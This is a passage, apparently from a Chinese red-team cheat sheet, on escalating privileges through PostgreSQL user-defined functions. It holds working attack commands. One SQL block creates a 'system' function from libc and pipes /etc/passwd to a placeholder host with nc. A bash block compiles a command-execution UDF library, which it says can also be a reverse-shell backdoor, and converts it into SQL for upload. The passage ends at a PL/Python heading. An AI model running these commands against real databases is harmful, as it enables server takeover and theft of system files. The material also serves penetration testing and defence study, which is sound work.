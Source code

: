 
## PostgreSQL 提权

### 利用 UDF 命令执行

在 8.2 以前,postgresql 不验证 magic block,可以直接调用本地的 libc.so
```sql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```

8.2 以上版本,需要自己编译 so 文件去创建执行命令函数，可以自己编译反弹 shell 后门，也可以用 sqlmap 提供好的
- https://github.com/sqlmapproject/sqlmap/tree/master/data/udf/postgresql

可以参考 [No-Github/postgresql_udf_help](https://github.com/No-Github/postgresql_udf_help)

```bash
# 找相应的 dev 扩展包
apt-get search postgresql-server-dev
# 安装 dev 扩展包
apt-get install postgresql-server-dev-11
# apt install postgresql-server-dev-all

# 编译好 .so 文件
git clone https://github.com/No-Github/postgresql_udf_help
cd postgresql_udf_help
gcc -Wall -I/usr/include/postgresql/11/server -Os -shared lib_postgresqludf_sys.c -fPIC -o lib_postgresqludf_sys.so
strip -sx lib_postgresqludf_sys.so

# 生成分片后的 sql 语句
cat lib_postgresqludf_sys.so | xxd -ps | tr -d "\n" > 1.txt
python2 postgresql_udf_help.py 1.txt > sqlcmd.txt
```

![](../../../../../assets/img/Security/RedTeam/软件服务安全/CS-Exploits/PostgreSQL/4.png)

### PL/Python 扩展
